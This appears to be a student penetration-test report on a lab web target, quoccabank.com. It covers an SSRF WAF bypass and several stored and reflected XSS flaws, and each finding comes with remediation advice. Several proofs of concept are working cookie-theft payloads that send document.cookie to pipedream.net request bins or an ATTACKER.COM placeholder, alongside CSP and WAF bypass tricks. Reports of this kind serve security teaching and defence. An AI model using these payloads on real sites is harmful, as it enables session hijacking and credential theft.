## P2 HIGH - SSRF on CTFProxy2 /flag internal access
**Asset Domain:** ctfproxy2.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details
A vulnerability with the web application firewall (WAF) for updating avatar (/me) allows internal sites such as /flag to be accessed by a malicious user. The WAF does not manage to completely prevent access to internal networks. 

### Proof of Concept / Steps to Reproduce
Accessing /robots.txt hints at the existence of the /flag page. However, upon visiting it through ctfproxy2 as an external user, the page seems to return a status 418 code - I am a teapot! It seems like this page should only be accessed through the internal network. A vulnerability with the /me page for updating avatar can be used to access this page's contents. The source code for /me displays its WAF, which checks for blacklisted words, matches the input website domain with regex, before confirming that it does not refer to the IP address of an internal network. However, a vulnerability here exists where the domain captured with regex refers to a public server, but the actual url refers to another website (which links to an internal site). Providing a website in the format `http://PUBLIC_SITE@MALICIOUS_SITE/flag#.png` passes the checks where the url has to start with http(s) and end with .png. Since the @ symbol is not part of the capture group for the domain, the regex captures from http(s):// up to the @ symbol, which is PUBLIC_SITE. In reality, accessing this url will bring you to the malicious site, where the browser interprets PUBLIC_SITE as the username for logging into the MALICIOUS_SITE. This can be seen with the example `http://www.google.com@facebook.com`, which Firefox displays the following warning for:



The remaining /flag#.png refers to the flag route, with an anchor to #.png which is ignored if it does not exist. The payload `http://www.google.com@LOCALHOST/flag#.png` bypasses all the WAF checks and causes the Python backend to access 127.0.0.1/flag, dumping its HTML contents into the attacker's avatar. Although lowercase "localhost" is part of the blacklist, its uppercase version LOCALHOST is not. The content for /flag can now be extracted by saving the avatar as an HTML file, allowing an attacker to view the contents of the internal page, as shown below. 



Even if LOCALHOST was also blocked by the WAF, the MALICIOUS_SITE can be replaced by any site with an A record pointing to 127.0.0.1. This means that accessing this malicious site refers to an internal address, which also manages to bypass all the WAF checks as well.

### Impact

A vulnerability with the WAF for avatar uploading in /me allows an attacker to access internal sites such as /flag. Furthermore, it gives an opportunity to possible enumerate file paths and retrieve sensitive information from server side access.

### Remediation

Capturing the domain of a site with regex may be vulnerable to potential edge cases, allowing attackers past the WAF. It is often recommended to use existing frameworks if they exist. However, a better way to check whether a site refers to an internal network is by pinging the provided user input website first, and checking that it does not refer to an internal network. This prevents edge cases with regex capturing. 

## P2 HIGH - Stored XSS in Comment Section

**Asset Domain:** science-today.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A stored XSS vulnerability exists in the comment section of the `science-today` blog which could lead to session hijacks for several users.

### Proof of Concept / Steps to Reproduce

1. We can easily see that no sanitisation is performed on submitted comments which allow us to invoke arbitrary JS & HTML

   ```html
   </p><b>awf</b>
   ```


2. It appears that there is some basic level of input sanitisation where `script` tags are rendered on the page as text.

   

3. However, the filter in place is not effective enough and thus appends variations of the `script` tag, such as `SCRIPT`, as raw HTML.

   ```html
   <SCRIPT>alert(1)</SCRIPT>
   ```

   

4. As a proof of concept, we can leak the `flag` cookie to a server controlled by an attacker by uploading an XSS payload to steal cookies from viewers of the comment. We can then report the page containing the XSS payload to the automated administration system and leak sensitive information from admins.

   ```html
   <SCRIPT>fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=${document.cookie}`)</SCRIPT>
   ```

   

### Impact

Coupled with the automated administration system that renders JavaScript on reported pages, this stored XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks. Additionally, the stored nature of the payload makes mass exploitation trivial, affecting all users to execute the XSS when viewing the page which dramatically increases the impact of a malicious payload. Stolen sessions can lead attackers to impersonate the victim on their behalf, posting up inappropriate content on the website, or negatively affect their online persona. 

### Remediation

Implement a whitelist to sanitise user input at both the client and server side through a well supported library such as `jsoup` or `DOMPurify`. All input must be sanitized and when appended onto the DOM, ensure that the user input is inserted as text rather than raw HTML. If user input is appended on the client side, using the `innerHTML` attribute should be avoided at all times as this poses the risk to potential XSS attacks. Instead, using the `innerText` method or `document.createTextNode` to append user input to the DOM is highly suggested. Furthermore, a Content-Security-Policy (CSP) should be in place to avoid the execution of untrusted resources. The CSP should utilise a randomly generated nonce each time a page is reloaded and have policies to be as strict as possible. When implementing CSP headers, avoiding using `unsafe-inline` or `unsafe-eval` as this enables inline JavaScript to be executed.

## P2 HIGH - Stored XSS in Comment Section behind WAF

**Asset Domain:** science-today.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A stored XSS vulnerability exists in the comment section of the `science-tomorrow` blog which is almost identical to the stored XSS vulnerability in `science-today.quoccabank.com`. 

### Proof of Concept / Steps to Reproduce

See the Proof of Concept for the Stored XSS vulnerability in `science-today`. Reproduction steps are identical to the non proxied variant albeit with the addition of a WAF bypass.

1. Some adjustments must be made to contend with a new obstacle with the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" JavaScript constructs such as `eval(window.atob())` or `location.href`.

2. Otherwise, exploitation follows exactly as in `science-today` which allows us to leak the `flag` cookie by using the following payload and reporting the filtered page.

   ```html
   </img>
   ```

### Impact

Impacts are the same as what was mentioned in **P2 HIGH - Stored XSS in Comment Section**. However, due to the implementation of the "HackShield" WAF at `ctfproxy2` level, the severity of this vulnerability is lower when compared to its counterpart as the WAF in place provides some basic security over user input.  

### Remediation

Remediations to this vulnerability are the same as what was mentioned in **P2 HIGH - Stored XSS in Comment Section**. However, one major recommendation is the adoption of a commercial WAF in place of the current home-brew solution. Often, commercial WAFs are well-tested and developed with high levels of security in mind. Furthermore, usage of input sanitization libraries such as `jsoup` and `DOMPurify` ensures that XSS vulnerabilities are minimised.

## P2 HIGH - Stored XSS in Report Ticket

**Asset Domain:** support-v2.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A stored XSS vulnerability was found on `support-v2.quoccabank.com` where an attacker could upload a malicious XSS payload to leak client side secrets such as sensitive cookies.

### Proof of Concept / Steps to Reproduce

1. When creating a ticket, it uses the `title` and `content` field to populate the result. It appears that the `title` is injected directly, meaning that we can inject an XSS payload. However, checking the source code, it appears that the `content` field is sanitised using DOMPurify before it is appended on the DOM.

    

    

  2. Note that the `content` field gets appended whether or there was an error caused within the `try` block. This is a bug where the code statement `$("#tk").attr("srcdoc", content);` should have been included in the `try` block instead.

  3. 

  4. We can cause an error within the `try` block by disabling the import for `DOMPurify` since this line of code in the `try` block `content = DOMPurify.sanitize(content, {SAFE_FOR_JQUERY: true}).toString();` requires the library to successfully execute.

  5. Inject an XSS payload in the `title` field using the payload below. This makes it such that all text after the script tag is ignored (included within it is the DOMPurify import) due to the behaviour in how the browser parses incompleted HTML tags.

     ```html
     </h2><script>
     ```

     

5. For our proof of concept, note that the `content` field is appended in an HTML element with `id=tk`. We can simply inject an iframe in the `title` field containing the `id` and append the unsanitized XSS payload from the `content` field. Note that we are using an iframe tag since the `content` input is appended in the `srcdoc` attribute of a HTML element.

    ```html
    title=<iframe id="tk"></iframe><script>
    content=test<form id="rp"><input name="ownerDocument"/><script>fetch("https://enxju6dmctwrg.x.pipedream.net/"+document.cookie);</script></form>
    ```

    

6. Whenever a user visits the page, we can execute arbitrary JavaScript code where we could potentially steal client side secrets.

   

### Impact

Similar to **P2 HIGH - Stored XSS in Comment Section**, with the feature of reporting suspicious pages, attackers can upload a stored XSS payload to steal session cookies from admins (or viewers of the page). This allows an attacker to leak any sensitive information that can be found on the client side and be sent over to a server controlled by the attacker as part of a JavaScript request in the XSS payload. Attackers could potentially conduct session hijacks with stolen cookies, gaining control of a user's account. Common use cases for stored XSS include account hijacking, credential theft, or data leakage. More details on the ramifications of this vulnerability and how it can affect QuoccaBank can be found [here](https://www.cypressdatadefense.com/blog/cross-site-scripting-vulnerability/).

### Remediation

When writing code, it is important to ensure that the logic of execution is correct. For support-v2, the code line `$("#tk").attr("srcdoc", content);` should have been included in the `try` since it is the most logical sense. Although the user input has been sanitised by DOMPurify, it only applies to the `content` field. It is strongly recommended that ALL user input is sanitised. This applies to both the client and server side of the application where using well tested sanitisers such as `DOMPurify` on the client side and `jsonp` on the server side decreases risks of a stored XSS vulnerability. It is also recommended that the use of `iframes` should be avoided and content should be appended via document text nodes on the client side.


## P2 HIGH - WAF and JSONP XSS in sturec.quoccabank.com

**Asset Domain:** sturec.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

Using JSON-P (JSON with Padding) to render the page is insecure since an attacker can replace the arbitrary callback function, and use it to bypass the Content Security Policy (CSP) set by the website to only allow same origin scripts, resulting in cross-site scripting (XSS). Furthermore, a weak web application firewall (WAF) is used to try to prevent malicious scripts for cookie stealing. 

### Proof of Concept / Steps to Reproduce



Injecting HTML into the search form for the last name, it can be seen that HTML input gets reflected on the query page. For example, typing in `<b>test</b>` as the last name displays the bolded test, as can be seen in the image above. However, injecting something like `<script>alert(1)</script>` does not seem to work since the Content Security Policy (CSP) blocks external scripts, as evident from the console shown below. 



Furthermore, analysing the network requests when loading the page indicates that a request is made to sturec.quoccabank.com/students.jsonp?q={QUERY}&callback=render, which returns the data to be displayed (based on query) wrapped within a render function call. This means we can use the jsonp route to load a script that we want to run, which won't be blocked since it comes from the same origin by adjusting the callback argument. 

As a proof of concept, entering the following payload into the search bar successfully yields an alert on the page:

```html
<script src=/students.jsonp?callback=alert(1);render />
```


This can be further extended to steal a user's cookies. From experimenting, it seems that the `+` and `.` characters are blocked by the WAF to prevent usual cookie stealing XSS attacks. However, malicious payloads can still be crafted to bypass such restrictions. Referring to `document['cookie']` instead of `document.cookie` bypasses the period character restriction. The `+` character restriction can be bypassed by sending a POST request to an attacker site with the cookie, or using string literals as shown below:

```html
<script src=/students.jsonp?callback=fetch(`${ATTACKER.COM/}${document['cookie']}`);render />
```

### Impact

As demonstrated above, an attacker is able to use JSONP to bypass the website's CSP settings and successfully inject malicious scripts into the page. The XSS attack can be extended to steal user cookies from anyone who accesses a compromised page. 

### Remediation

JSONP should not be used since it can be used to bypass CSP same origin restrictions. Furthermore, search results should be rendered as HTML-encoded text instead of HTML, especially since the search feature is designed to look up last names anyways. However, if this is not possible, the WAF should use a common trusted framework to sanitise malicious input, such as DOMPurify, since the current WAF can be easily bypassed, as demonstrated above. 


## P2 HIGH - Stored XSS in sturec.quoccabank.com

**Asset Domain:** sturec.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A malicious student can be created and added to the database such that whenever that student is rendered on any user's browser, there can be arbitrary client-side code execution through cross-site scripting (XSS). 

### Proof of Concept / Steps to Reproduce



Using Burp Suite to intercept a request for creating a new student, it can be seen that there is a hidden field added for "dcreate", referring to the date of creation (above). However, after successfully creating the student, it can be seen below that this field is hidden and not rendered on the screen, using a CSS display: none to hide its value. Using a payload such as `<b>test</b>` for dcreate, it can be seen that the beginning tag is removed by the WAF. 



From experimentation, it seems the WAF can be bypassed using something like `<<b>_b>test</b>` to keep the opening tag, where the opening tag as well as the following character seems to get stripped by the WAF. We can extend this proof of concept for arbitrary client-side code execution, using a similar technique from the previous sturec subdomain vulnerability regarding using JSONP to bypass the CSP blocking external scripts. The following payload creates a malicious new student such that every time that student is rendered, arbitrary code is executed for anyone who can see the student's row, such as for cookie stealing.

```html
<<b>_script src=/students.jsonp?callback=fetch(`${ATTACKER.COM/}${document['cookie']}`);render />
```


### Impact

As demonstrated above, it is possible to create a malicious student entry and add it to the database. This means that whenever that student is rendered on any user's browser, arbitrary code can be executed on their browser. This poses a security concern, since user cookies can be stolen, resulting in hijacked sessions.

### Remediation

As previously recommended, the web application should avoid using JSONP so the CSP cannot be bypassed for executing arbitrary JavaScript. Furthermore, the `dcreate` field should be HTML-encoded like the other fields (or even sanitised) even if it seems like a user cannot write to the field, since the CSS display: none only hides it visually so that the user does not see it, although the browser still interprets and executes the HTML. It may be better to manually set a dcreate on the server side, so users are unable to modify its client-side creation (using Burp Suite for example). 